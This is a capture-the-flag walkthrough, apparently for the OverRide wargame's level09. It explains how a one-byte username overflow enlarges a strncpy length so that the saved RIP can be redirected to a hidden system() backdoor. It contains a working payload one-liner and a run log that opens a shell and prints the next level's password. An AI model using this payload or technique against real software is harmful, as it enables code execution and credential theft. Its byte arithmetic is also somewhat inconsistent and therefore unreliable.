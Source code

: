# Level09 — Exploit Walkthrough

## 1. Program Behavior

When running the binary, the program asks for two inputs:

* A **username**
* A **message**

Both inputs are read with `fgets()` and stored inside a structure:

```c
typedef struct s_message {
    char text[140];     // buffer for the message
    char username[40];  // buffer for the username
    int len;            // initialized to 140
} t_message;
```

### Key points:

* `set_username()` → copies characters one by one into `username`. It actually copies **41 characters**, so there is a **1-byte overflow**.
* `set_msg()` → uses `strncpy(msg->text, buffer, msg->len)`. The size parameter (`msg->len`) is under our control because of the overflow.

---

## 2. The Vulnerability

* The integer `len` comes right after `username` in memory.
* Normally, `len = 0x0000008c (140)`.
* By overflowing `username` with 41 characters, we overwrite the **least significant byte of `len`**.
* For example, if we write `0xd4` as the 41st byte:

  * `len` changes from `0x0000008c` → `0x000000d4` (212).
* This means `strncpy()` will now copy **212 bytes** into a buffer of size 140, overflowing into saved registers.

This is the vulnerability we will exploit.

---

## 3. The Target: `secret_backdoor()`

Disassembly reveals a hidden function:

```asm
0x000055555555488c <secret_backdoor>:
   fgets(buf, 128, stdin)
   system(buf)
```

* `secret_backdoor()` reads a command from stdin and passes it to `system()`.
* This is a classic target for exploitation: if we redirect execution here, we can run any shell command.

---

## 4. Exploit Strategy

1. Use the off-by-one overflow in `set_username()` to overwrite `len` with a bigger value (`212`).
2. Provide a long message so that `strncpy()` will overwrite saved registers.
3. Overwrite the saved **RIP** with the address of `secret_backdoor()`.
4. Place the string `"/bin/sh"` right after, so it becomes the argument for `system()`.

---

## 5. Memory Layout

* `username[40]` → followed immediately by `len` (4 bytes).
* After `username`, the function continues into other saved values, eventually reaching the saved **RIP**.
* With `len = 212`, we copy **200 filler bytes + 8-byte RIP overwrite**.

The buffer overflow path looks like this:

```
[ 140 bytes text ]
[ 40 bytes username ]
[   4 bytes len  ] ← corrupted by username overflow
[ ... saved RIP ]
```

---

## 6. Building the Payload

### Step 1. Overwrite `len`

We write:

```
'A' * 40 + '\xd4' + '\n'
```

* 40 × `A` fill the username.
* `\xd4` overwrites `len` → 212.

### Step 2. Overflow into RIP

Now `strncpy()` will copy 212 bytes into 140:

* 200 × `A` (filler)
* Address of `secret_backdoor()` in **little-endian**
* String `"/bin/sh"`

### Step 3. Address of `secret_backdoor()`

From GDB:

```
0x000055555555488c
```

Little-endian form:

```
\x8c\x48\x55\x55\x55\x55\x00\x00
```

### Step 4. Final Payload

```bash
python -c "print 'B'*40 + '\xd4' + '\n' + 'B'*200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1] + '/bin/sh'" > /tmp/exploit
```

---

## 7. Running the Exploit

```bash
level09@OverRide:~$ cat /tmp/exploit - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
$ whoami
end
$ cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

---

## 8. Summary

* The binary has a hidden function `secret_backdoor()`.
* A 1-byte overflow in `set_username()` lets us corrupt `len`.
* This changes how many bytes `strncpy()` copies in `set_msg()`.
* By setting `len = 212`, we overwrite saved RIP.
* RIP is replaced with `secret_backdoor()`'s address.
* Finally, `/bin/sh` is executed, giving us a shell and access to the password.
